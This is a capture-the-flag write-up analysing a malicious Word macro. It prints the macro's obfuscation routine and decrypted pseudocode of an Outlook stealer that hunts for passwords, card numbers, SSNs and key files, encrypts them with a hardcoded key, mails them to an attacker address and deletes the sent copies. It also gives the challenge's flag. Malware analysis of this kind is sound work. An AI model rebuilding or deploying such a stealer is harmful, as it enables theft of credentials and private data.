








# WRITE_UP #

## ONE OF US ##

### 1. Analysis ###
* **Given:** a docm file named `invisible_shield.docm` and a text file `mail.txt`
* **Description:** During a recent red team engagement one of our servers got compromised. Upon completion the red team should have deleted any malicious artifact or persistence mechanism used throughout the project. However, our engineers have found numerous of them left behind. It is therefore believed that there are more such mechanisms still active. Can you spot any, by investigating this network capture?
* **Hints:**   
    * No hints are given

### 2. Investigation ###
First, I used `cat` to see the text file's content. However, the mail looks like it's encrypted:



```text
From: Austin <taustin@whschool.com> 
To: dph@whschool.com 
Subject: Outlook Exfiltration Data from User: taustin


*twGsy*#p7XY8CT4N3RpGq5xDzL7EMHW|F02fGjYTWhdk3JYn2nntOcU56fnU0YD4prneoaPxbsNIcMgcwsFFGWifg7tNNkohHj9nZRTWJDg/BcnUpTuKynaTtMg9fnOnhjYmg++Q6pklR9Zt0s2vzVu2FMJxO+xBaQrONSPvPg5sd2qRtAkrCa4ikKuKwg38QA7v+wseZRrx37P2sIiellwVcWFMRQCZtlE6bdN14JKmXn+GeXFIP51KHOCR3qd34NgzcGuLySbH9ZGzldLZWagnIcAFKTP9
```

The only artifact left is the Word document, I initially ran `oleid` to see if there's any macros in the file:



Apparently, this file contains VBA Macros, so I ran `olevba` to analyze it:









I spotted several suspicious namespaces sush as `.To`, `.CC`, `.BCC`, `.Subject`, `.Send`, `Attachment`. These are part of an email. As the picture shows, most of this variables used function `nkalPYSrDkoirG()` to get its value:

```vb
Private Function nkalPYSrDkoirG(JOaTlVhEgWePay As Variant, VkjJlLFzskbVY As Integer)
Dim fvPLOtDYqRXxu As String
Dim PjJHmvDBocr() As Byte
PjJHmvDBocr = ovLKcDvvuvaxVc(ActiveDocument.Variables("gtrxGyKtbDzUEDng"))
fvPLOtDYqRXxu = ""
For KLMydQnxMZSOX = LBound(JOaTlVhEgWePay) To UBound(JOaTlVhEgWePay)
fvPLOtDYqRXxu = fvPLOtDYqRXxu & Chr(PjJHmvDBocr(KLMydQnxMZSOX + VkjJlLFzskbVY) Xor JOaTlVhEgWePay(KLMydQnxMZSOX))
Next
nkalPYSrDkoirG = fvPLOtDYqRXxu
End Function
```
* How this function works:
    * Input: This function takes an array/variant `JOaTlVhEgWePay` and an integer `VkjJlLFzskbVY` as a starting index
    * Does a bitwise XOR decryption by iterating through the input array and XORing its elements against a byte array extracted from a hidden Word Document Variable `gtrxGyKtbDzUEDng`
    * Output: a deobfuscated string

So with the `.docm` provided, it's actually an archive, so I can use `unzip` to extract it. 

Next I run `strings` combine with `grep` to get the content of `gtrxGyKtbDzUEDng`:

```bash
strings * | grep -R "gtrxGyKtbDzUEDng"
```



The base64 encoded string I found was:

```text
eNS7GlezU9snp3ciGjUJ9HD0eo5arrhaNii/Jgh7Rq38gvvpitv8AHreIuCHDbXhLd1BlLceamykizs8G02DzoP5bZm0PWZkL80S8MfgzZKkTAWqU3oSdton381J023oFIgmK5mEI4c+F85DAOx+mOkrnEbqMaOzJ4EQ4lSM2LfCgqS7AXQDbwipi5KrDBRkfKO8Me3+6MQ5g/XK6b6e2W5HvaCGoWDe6P2crp90G3GTh0kAemmwX1OOhX1IaAeKe8GbBiyp++2WTalzSf1vCviI5a+jcyRw26L8DP6i4urW+YP902QZa43DZ6A+d8Zh438OogAeuuBaNXUgPEgPQpQaca+NDHco7sYPzmI4Fb1XJU9SS1xGw1gU06x8vZ2w6u8oqnQN/xxTvGjxXUV+X9fnxUGQsg64B85ekF+DPeJD/92LHqrK2wVSVYgHGqvwKY/Yshfu9t2fl74o7KDTFATUJa1AHmy9zsNuZPvvwbwG9iD1cHFJLnLemhWN+6vMoQiO/xUIYMWKGQk2D8+RiSvhlptUw2195E3e7K40WnXNLSyAMvW+ngfplr9T23xyapsNo8gz/MOdw0KWMB868kW9kAGQ5IXWPHGaE7H8hWB3t+1K5H861yr7u5BgZIUby3VU0gKV8EH2c0Gl7rCa6sFbiTtCXmV3r1A+Fm3vBMCG19X2YPN62VpHhRMobsfSEl5TezlLWYVA/HNP6G5VX8+sxdTdQOyk84SGtm8I5Ss6kL4bs/+zw/VdcaXr8IZSa5rsmSgRC4+mLHhPSBTZODowjHPJOZK++rnkqLWQTzIRiiRZZVXeSoVEIGSla44WBR7x2xJABJrRzCxKUg+ryslthKXjteBuF9JZZovMADo9uRVgtu7XYVahg9ujIR310KWMMKlr+rzsLAvvlMLPHGVrG8LDoHrbURxqjPlU3a5OppL'jZIRKGTHO353w8HNR/ly3P3Nw==
```

After getting the encoded string, I wrote a python script to automatically search for the function `nkalPYSrDkoirG` being called and decrypt the real ciphertext:

```python
import base64
import re

doc_variable_b64 = "eNS7GlezU9snp3ciGjUJ9HD0eo5arrhaNii/Jgh7Rq38gvvpitv8AHreIuCHDbXhLd1BlLceamykizs8G02DzoP5bZm0PWZkL80S8MfgzZKkTAWqU3oSdton381J023oFIgmK5mEI4c+F85DAOx+mOkrnEbqMaOzJ4EQ4lSM2LfCgqS7AXQDbwipi5KrDBRkfKO8Me3+6MQ5g/XK6b6e2W5HvaCGoWDe6P2crp90G3GTh0kAemmwX1OOhX1IaAeKe8GbBiyp++2WTalzSf1vCviI5a+jcyRw26L8DP6i4urW+YP902QZa43DZ6A+d8Zh438OogAeuuBaNXUgPEgPQpQaca+NDHco7sYPzmI4Fb1XJU9SS1xGw1gU06x8vZ2w6u8oqnQN/xxTvGjxXUV+X9fnxUGQsg64B85ekF+DPeJD/92LHqrK2wVSVYgHGqvwKY/Yshfu9t2fl74o7KDTFATUJa1AHmy9zsNuZPvvwbwG9iD1cHFJLnLemhWN+6vMoQiO/xUIYMWKGQk2D8+RiSvhlptUw2195E3e7K40WnXNLSyAMvW+ngfplr9T23xyapsNo8gz/MOdw0KWMB868kW9kAGQ5IXWPHGaE7H8hWB3t+1K5H861yr7u5BgZIUby3VU0gKV8EH2c0Gl7rCa6sFbiTtCXmV3r1A+Fm3vBMCG19X2YPN62VpHhRMobsfSEl5TezlLWYVA/HNP6G5VX8+sxdTdQOyk84SGtm8I5Ss6kL4bs/+zw/VdcaXr8IZSa5rsmSgRC4+mLHhPSBTZODowjHPJOZK++rnkqLWQTzIRiiRZZVXeSoVEIGSla44WBR7x2xJABJrRzCxKUg+ryslthKXjteBuF9JZZovMADo9uRVgtu7XYVahg9ujIR310KWMMKlr+rzsLAvvlMLPHGVrG8LDoHrbURxqjPlU3a5OppL'jZIRKGTHO353w8HNR/ly3P3Nw=="
decoded_bytes = base64.b64decode(doc_variable_b64)

def decrypt_vba_string(xor_array, offset):
    res = ""
    for i in range(len(xor_array)):
        idx = i + offset
        if idx < len(decoded_bytes):
            res += chr(decoded_bytes[idx] ^ xor_array[i])
    return res

def extract_full_vba_calls(text):
    results = []
    search_str = "nkalPYSrDkoirG("
    start_idx = 0
    
    while True:
        idx = text.find(search_str, start_idx)
        if idx == -1:
            break
            
        paren_count = 0
        content_start = idx + len(search_str)
        content_end = -1
        
        for i in range(content_start, len(text)):
            c = text[i]
            if c == '(': paren_count += 1
            elif c == ')':
                if paren_count == 0:
                    content_end = i
                    break
                paren_count -= 1
                
        if content_end != -1:
            full_call = text[idx:content_end+1]
            inner_content = text[content_start:content_end]
            results.append((full_call, inner_content))
            start_idx = content_end
        else:
            start_idx = idx + len(search_str)
            
    return results

def deobfuscate_vba(file_path):
    print(f"[+] Reading: {file_path}")
    with open(file_path, "r", encoding="utf-8") as f:
        vba_code = f.read()

    clean_code = re.sub(r'_\s*\n', '', vba_code)
    
    calls = extract_full_vba_calls(clean_code)
    print(f"[+] Cleaning ...\n")

    for full_call, inner_content in calls:
        arg = inner_content.strip()
        if not arg.startswith("Array("):
            continue
            
        paren_count = 0
        array_end = -1
        for i in range(6, len(arg)):
            if arg[i] == '(': paren_count += 1
            elif arg[i] == ')':
                if paren_count == 0:
                    array_end = i
                    break
                paren_count -= 1
        
        if array_end != -1:
            array_content = arg[6:array_end].replace("Xor", "^")
            offset_content = arg[array_end+1:].strip()
            if offset_content.startswith(','):
                offset_content = offset_content[1:].strip()
            offset_content = offset_content.replace("Xor", "^")
            
            try:
                offset_val = eval(offset_content)
                arr_val = eval(f"[{array_content}]")
                
                decrypted_str = decrypt_vba_string(arr_val, offset_val)
                
                escaped_str = decrypted_str.replace('"', '""')
                clean_code = clean_code.replace(full_call, f'"{escaped_str}"')
            except Exception as e:
                pass

    output_file = "deobfuscated_vba.txt"
    with open(output_file, "w", encoding="utf-8") as f:
        f.write(clean_code)
        
    print(f"[+] Saving output to: {output_file}")

if __name__ == "__main__":
    deobfuscate_vba("vba.txt")
```

After running the script, I got the decrypted VBA macros, in pseudocode it looks like this:

```vb
'CONFIG & CONSTANTS
EXFIL_EMAIL = "dph@whschool.com"
AES_KEY = "8xppg2oX68Bo6koL7hwSeC8bCEWvk540"

TARGET_KEYWORDS = ["password", "passwd", "creds", "credential", "credit card", "social security number"]
TARGET_EXTENSIONS = ["pgp", "asc", "pem", "pub", "gpg", "gpg-key", "mp3", "mp4", "mov", "xlsx", "xlsm", "xlsb", "csv", "doc", "docx", "docm", "exe", "zip", "sql", "db", "bak", "pdf"]


'MAIN EXECUTION
FUNCTION Main_Malware_Execution():
    ' 1. Connect to victim's Outlook
    OutlookApp = CreateObject("Outlook.Application")
    InboxFolder = OutlookApp.GetNamespace("MAPI").GetDefaultFolder(Inbox)
    
    ' 2. Look for emails in the most recent 112 days
    TargetEmails = GetEmailsByDate(From = Today - 112_days, To = Today)
    
    ' 3. Look for sensitive information
    FOR EACH Email IN TargetEmails:
        
        IF Email.Body OR Email.Subject CONTAINS ANY TARGET_KEYWORDS:
            Exfiltrate_Email_Text(Email.Subject, Email.Body)
        
        IF Email.Attachments.Count > 0:
            FOR EACH Attachment IN Email.Attachments:
                IF Attachment.Extension IN TARGET_EXTENSIONS OR Attachment.FileName CONTAINS ANY TARGET_KEYWORDS:
                    Exfiltrate_Attachment(Email)


'EXFILTRATION
FUNCTION Exfiltrate_Email_Text(Subject, Body):
    ' Encrypt data before exfiltration
    DataToSteal = Subject + Body
    Random_IV = Generate_Random_String(length=32)
    
    Encrypted_Data = AES256_Encrypt(
        Data = DataToSteal, 
        Key = AES_KEY, 
        IV = Random_IV
    )
    
    Final_Payload = Random_IV + "|" + Base64Encode(Encrypted_Data)
    
    ' Send a new email to attackers
    NewEmail = CreateNewEmail()
    NewEmail.To = EXFIL_EMAIL
    NewEmail.Subject = "Outlook Exfiltration Data from User: " + GetSystemEnvironmentVariable("username")
    NewEmail.Body = Final_Payload
    
    NewEmail.DeleteAfterSubmit = True ' Delete information in Sent
    NewEmail.Send()


FUNCTION Exfiltrate_Attachment(TargetEmail):
    ' Forward emails' attachments to attackers
    ForwardEmail = TargetEmail.Forward()
    ForwardEmail.To = EXFIL_EMAIL
    ForwardEmail.Subject = "Outlook Exfiltration Attachment from User: " + GetSystemEnvironmentVariable("username")
    
    ForwardEmail.DeleteAfterSubmit = True ' Delete information in Sent
    ForwardEmail.Send()
```

How this malware works:
1. Target: The malware specifically targets the victim's Microsoft Outlook application via COM objects.
2. Data Collection: It scans the user's Inbox to hunt for sensitive keywords (e.g., passwords, credit card numbers, SSNs) and critical attachments, such as documents, databases, and encryption keys (e.g., .zip, .sql, .pgp, .pem)
3. Encryption: The stolen email content is encrypted using the Rijndael-256 algorithm with a hardcoded static key: `8xppg2oX68Bo6koL7hwSeC8bCEWvk540`. A 32 characters `iv` is randomly generated and prepended to thebBase64 encoded ciphertext, separated by a pipe character `|`.
4. Exfiltration: The harvested data and attachments are exfiltrated by silently sending emails to the attacker's address `dph@whschool.com`. To cover its tracks, the macro uses `DeleteAfterSubmit = True`.

Since I have the `mail.txt` in the first place, I can decrypt its content:

```ps1
$prefix = "*twGsy*#p7XY8CT4N3RpGq5xDzL7EMHW"

$ctB64 = "F02fGjYTWhdk3JYn2nntOcU56fnU0YD4prneoaPxbsNIcMgcwsFFGWifg7tNNkohHj9nZRTWJDg/BcnUpTuKynaTtMg9fnOnhjYmg++Q6pklR9Zt0s2vzVu2FMJxO+xBaQrONSPvPg5sd2qRtAkrCa4ikKuKwg38QA7v+wseZRrx37P2sIiellwVcWFMRQCZtlE6bdN14JKmXn+GeXFIP51KHOCR3qd34NgzcGuLySbH9ZGzldLZWagnIcAFKTP9"

$keyText = "8xppg2oX68Bo6koL7hwSeC8bCEWvk540"

$key = [System.Text.Encoding]::UTF8.GetBytes($keyText)
$iv = [System.Text.Encoding]::UTF8.GetBytes($prefix)
$ct = [Convert]::FromBase64String($ctB64)

$r = New-Object System.Security.Cryptography.RijndaelManaged
$r.KeySize = 256
$r.BlockSize = 256
$r.Mode = [System.Security.Cryptography.CipherMode]::CBC
$r.Padding = [System.Security.Cryptography.PaddingMode]::Zeros

$r.Key = $key
$r.IV = $iv

$decryptor = $r.CreateDecryptor()
$pt = $decryptor.TransformFinalBlock($ct, 0, $ct.Length)

[System.Text.Encoding]::UTF8.GetString($pt)
```



### 3. Solution ###
1. **Result:** The flag is `HTB{th3s3_sp3lls_4r3_t00_d4ng3r0us}`
